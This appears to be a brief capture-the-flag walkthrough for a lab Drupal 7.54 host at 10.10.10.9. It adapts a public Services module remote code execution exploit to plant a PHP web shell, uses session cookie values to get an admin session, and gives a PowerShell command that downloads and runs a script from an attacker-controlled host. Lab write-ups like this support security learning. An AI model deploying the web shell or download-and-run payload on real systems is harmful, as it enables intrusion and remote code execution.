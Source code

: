 Drupal 7.54

To check for code execution put this as data to the file.

use https://www.ambionics.io/blog/drupal-services-module-rce

modify the php code to go to correct `/rest` not `/rest_endpoint/` as that does not exist.

```
$phpcode = <<< 'EOD'
<?php

    if (isset($_REQUEST['fexec'])) {
        echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
    }

?>
EOD;
```

now you can do `10.10.10.9/hack.php?fexec=dir`

the `session.json` file contains:

```

{
    "session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
    "session_id": "wj5QhcVJp8Pl1fHJMEibBSkOXNQECylfEl1zb2rgFkg",
    "token": "0ex9I0Zop_i86ZWFZxHrcMNc0OBWh_k2AB1TOWo-Xm8"
}

```

the `session_name` is the name of the cookie and `session_id` is the value to get an admin session.

`10.10.10.9/hack.php?fexec=echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.xx.xx/fileToUpload') | powershell -noprofile -`

trailing `-` to pull from stdin
